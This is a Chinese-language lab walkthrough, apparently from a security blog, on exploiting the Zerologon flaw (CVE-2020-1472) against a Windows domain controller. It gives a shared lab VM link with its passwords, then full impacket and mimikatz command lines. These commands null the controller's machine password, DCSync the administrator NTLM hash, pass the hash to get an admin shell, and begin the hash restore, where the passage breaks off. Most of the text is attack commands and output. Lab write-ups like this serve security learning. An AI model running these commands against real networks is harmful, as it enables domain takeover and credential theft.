先知
Zerologon(CVE-2020-1472)是Netlogon远程协议的一个特权提升漏洞，可以在不提供任何凭据的情况下通过身份验证，并实现域内提权。
该漏洞的最常见的利用方法是调用Netlogon中的RPC函数NetrServerPasswordSet2来重置域控的机器账户的密码，从而以域控制器的机器账户的身份进行Dcsync获取域管权限。
注意，这里重置的是域控机器账户的密码，与域管的密码无关**，**该密码由系统随机生成，密码强度是 120个字符，并且会定时更新。
机器账户是不允许登录的，所以不能直接通过重置后的机器账户来登陆域控制器。但是，域控制器的机器账户在默认情况下拥有DCSync 权限，因此可以通过 DCSync攻击导出域管理员甚至所有用户密码的哈希值，进而获取域控权限
这个漏洞完整的利用，需要域控开启 135 和 445 端口。
漏洞影响版本
• Windows Server 2008 R2 for x64-based Systems Service Pack 1
• Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
• Windows Server 2012
• Windows Server 2012 (Server Core installation)
• Windows Server 2012 R2
• Windows Server 2012 R2 (Server Core installation)
• Windows Server 2016
• Windows Server 2016 (Server Core installation)
• Windows Server 2019
• Windows Server 2019 (Server Core installation)
• Windows Server, version 1903 (Server Core installation)
• Windows Server, version 1909 (Server Core installation)
• Windows Server, version 2004 (Server Core installation)
靶场环境
这是哦自己本地的靶机
通过百度网盘分享的文件：Zerologon靶场环境
链接：https://pan.baidu.com/s/1Lbg09YP0U2oi15ijLN4EVA?pwd=d75b
提取码：d75b
–来自百度网盘超级会员V4的分享
Windows Server 2016，Windows 10
可以把你的Net网卡设置为192.168.213.0/24，然后把主机导入VMware，开机即可用
温馨提示：每个主机都拍了快照，名字都为：“测试前”复现一处即可恢复一下快照，可快速重启环境
| 主机 | 主机名 | 本地用户名 | 密码 | IP | 备注 |
|---|---|---|---|---|---|
| Windows Server 2016 Master | masterpc | masteruser | master@123. | 192.168.213.100 | 域控 |
| Windwos10 | win10pc | win10user | win10@123. | 192.168.213.11 | 域主机 |
| 域身份 | 域用户名 | 密码 |
|---|---|---|
| 域管理员master | administrator | master@123. |
| 域用户 | alex | Admin@123. |
| 域用户 | tom | Admin@123. |
| win10pc本地管理员 | administrator | win10@123. |
impacket 攻击
检测是否存在漏洞
查看开放端口
可以看到开放了135和445端口

这里提供三个脚本使用哈
脚本一(测试)
测试：https://github.com/SecuraBV/CVE-2020-1472
1 | python3 zerologon_tester.py 域主机名 域控IP |
可以看到回显域控可以被置空导致被Zerologon攻击

脚本二（测试+攻击+还原）
测试+攻击：https://github.com/VoidSec/CVE-2020-1472
1 | python3 cve-2020-1472-exploit.py -n 域主机名 -t 域控IP |
可以看到回显存在漏洞，如果选择攻击（也就是置空域控机器hash）选择Y，这里我只做漏洞验证工作

重置域控哈希
脚本二（测试+攻击+还原）
在使用时直接选Y，直接置空域控hash

脚本三（攻击+还原hash）
攻击+还原hashs：https://github.com/dirkjanm/CVE-2020-1472/
置空前用域机器账户空密码抓hash，是失败的
1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -no-pass |

置空后，成功抓取到域管hash
1 | python3 cve-2020-1472-exploit.py masterpc 192.168.213.100 |

1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -no-pass |

抓取域管hash
用secretsdump.py来获取域控中保存的hash，secretsdump.py脚本在kali自带impacket包中，在/usr/local/bin路径下，或者手动下载脚本模块
1 | git clone https://github.com/SecureAuthCorp/impacket |
利用impcker包中的seretsdump脚本抓hash值
1 | python3 secretsdump.py 域名称/域控主机名\$@域控IP -no-pass |

因为置空后的机器账户masterpc$的hash是一样的，所以也可以这样，使用指定域机器账户hash来导出域管hash
此处的hash是被置空后的域机器账户的hash，全网都一样的哈，可以直接用
1 | python3 secretsdump.py "myd.com/masterpc$"@192.168.213.100 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user "administrator" |

抓取到了所有用户的hash
1 | Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec0df45863a3751d56ba6df1e72f7218::: |
其中masterpc$的NTML hash已经被置空了

如果有把administrator密码解开的可能，最好解密

远程连接域控PTH攻击
现在已经有了域管的hash了，就可以使用PTH攻击了
获取到hash之后接下来我们就可以利用常见横向工具wmiexec.py进行登录，生成一个半交互式shell(管理员权限)，这个脚本也在kali自带impacket包中，/usr/local/bin路径下
1 | python3 wmiexec.py -hashes 域管理员hash c域名/Administrator@域控IP |
1 | python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:ec0df45863a3751d56ba6df1e72f7218 myd.com/Administrator@192.168.213.100 |

接下来就要恢复域控的机器账户的hash了，为什么要恢复原因下边讲，接下来换用mimikatz进行攻击
mimikatz 攻击
这里我借用一个域主机，让他模拟一下域环境
| 主机 | IP |
|---|---|
| winserver2016 | 192.168.213.100 |
| win10pc | 192.168.213.11 |
检测是否存在漏洞
这个需要域主机win10pc的管理员权限，且mimikatz版本不能太老哈
https://github.com/gentilkiwi/mimikatz/
1 | mimikatz.exe "privilege::debug" "lsadump::zerologon /target:192.168.213.100 /account:masterpc$" "exit" |
1 | mimikatz.exe "privilege::debug" "lsadump::zerologon /target:域控IP /account:域机器账户名" "exit" |
可以看到是存在这个漏洞的

重置域控哈希
攻击机在域中
如果当前主机在域环境中，则 target 这里可以直接使用 FQDN，此处不需要管理员权限
1 | mimikatz.exe "lsadump::zerologon /target:masterpc.myd.com /ntlm /null /account:masterpc$ /exploit" "exit" |
1 | mimikatz.exe "lsadump::zerologon /target:域主机名.域名 /ntlm /null /account:域机器名 /exploit" "exit" |
这里用到的是域内的一台主机win10pc
如图所示，使用 mimikatz 检测目标域控是否存在 Netlogon 权限提升漏洞，提示 Authentication: OK -- vulnerable.即可证明目标域控存在 Netlogon 权限提升漏洞！

攻击机不在域中
如果当前主机不在域环境中，则 target 这里可以直接指定 域控IP，此处不需要管理员权限
1 | mimikatz.exe "lsadump::zerologon /target:192.168.213.100 /ntlm /null /account:masterpc$ /exploit" "exit" |
1 | mimikatz.exe "lsadump::zerologon /target:域控IP /ntlm /null /account:域机器名 /exploit" "exit" |
这里就是在我物理机本地哈，不在虚拟机域内

导出域管hash
注意：这里/dc 后面一定要跟域名格式的域控的 FQDN，所以这就意味着，当前攻击的机器必须将 DNS 服务器指为域控，这样才能解析
#导出指定 administrator 用户哈希
1 | mimikatz.exe "lsadump::dcsync /csv /domain:myd.com /dc:masterpc.myd.com /user:administrator /authuser:masterpc$ /authpassword:\"\" /authntlm" "exit" |
1 | mimikatz.exe "lsadump::dcsync /csv /domain:myd.com /dc:域控的FQDN /user:administrator /authuser:域控主机名$ /authpassword:\"\" /authntlm" "exit" |
这里我测试呢，是不需要管理员权限的

已经导出域管理员的hash了，可以试着解密一下看能不能拿到明文密码，解不开就进行PTH攻击
1 | ec0df45863a3751d56ba6df1e72f7218 |
如果没有重置域控机器账户的hash之前，导出结果是这样的

远程连接域控PTH攻击
用刚刚导出来的 administrator 用户的哈希连接域控，这一步需要 privilege::debug 提权
1 | mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:192.168.213.100 /rc4:ec0df45863a3751d56ba6df1e72f7218" "exit" |
1 | dir \\192.168.213.100\C$ |
可以看到，执行命令之后会弹出来一个新的管理员窗口，这个窗口不是域控的窗口，他还是win10pc的，但这个新的管理员窗口已经连接到域控了，如下图所见，拿到了在域控桌面的flag

恢复域控的机器用户哈希
在攻击成功后，一定要恢复域控的机器用户的原始哈希，不然可能会出现域控重启后无法开机、脱域等情况！
其原因在于我们是将 ntds.dit 中的域控机器密码置为空了，但是域控本地注册表和 lsass 进程中的密码并没有改变，这就导致了机器用户在 AD 中的密码与本地的注册表和 lsass 进程里面的密码不一致，所以可能会出现域控重启后无法开机、脱域等情况。
获得域控机器账号原始哈希
方式一：
在目标域控上执行这三个命令，需要管理员权限哈，将注册表中的信息导出这三个文件，然后拿到自己本地
1 | reg save HKLM\SYSTEM system.save |
